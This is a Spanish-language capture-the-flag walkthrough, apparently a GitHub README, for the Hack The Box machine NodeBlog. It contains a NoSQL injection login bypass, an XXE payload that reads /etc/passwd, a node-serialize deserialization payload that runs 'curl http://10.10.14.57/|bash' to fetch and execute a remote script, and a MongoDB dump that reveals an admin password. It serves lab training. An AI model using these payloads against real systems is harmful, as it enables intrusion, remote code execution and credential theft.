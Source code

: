 # nodeblog-HTB


## NMAP

![image](https://github.com/gecr07/nodeblog-HTB/assets/63270579/d016edfe-e784-4723-b289-ed160b1a97ec)


Encontramos una pagina que esta con express de nodejs.

![image](https://github.com/gecr07/nodeblog-HTB/assets/63270579/6047fd9a-b19d-4d73-85d4-95fb43f6a601)

Cuando tienes express vale la pena probar con json y NOSQLi cambiamos el Content-Type: application/json y ponemos user=admin&password=passwd como JSON y la respuesta nos da OK

![image](https://github.com/gecr07/nodeblog-HTB/assets/63270579/b09f9128-a806-4a35-929a-9bed6f1355c0)

Y bypaseamos el loggin es impotante hacer fallar a la base de datos para sacar informacion del proyecto.

![image](https://github.com/gecr07/nodeblog-HTB/assets/63270579/1a8158b7-a916-484d-888b-59d373b8a46d)

## RCE 

Encontramos que permite subir xml entonces me viene a la mente el XXE y si!

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>


```

Leemos el server.js en /opt/blog y nos damos cuenta que tiene un modulo node-serialize el cual es vulnerable a un RCE 



![image](https://github.com/gecr07/nodeblog-HTB/assets/63270579/406db8ad-d4a3-47e7-9b3f-04ef3e9b7dc2)


> https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Para escalar comandos tuve problemas porque si podia mandar un ping pero la shell no use el metodo de s4vitar de curl IP|bash y funciono

```

{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.57;curl http://10.10.14.57/|bash',function(error, stdout, stderr){console.log(stdout)});}()"}
```

Antes de ponerlo en la cookie URL encodealo.

## Priv esc

Vemos que tiene la base de datos de mongo

```
mongo mongodb://localhost/blog

# Ya sabes

show dbs

use admin

show collections

db.articles.find()

db.users.find({name: "John"})

"username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

Ya teniendo ese password del usuario admin pues solo has sudo -l y ve que puedes corrrer cualquier comando sin y haste root.








































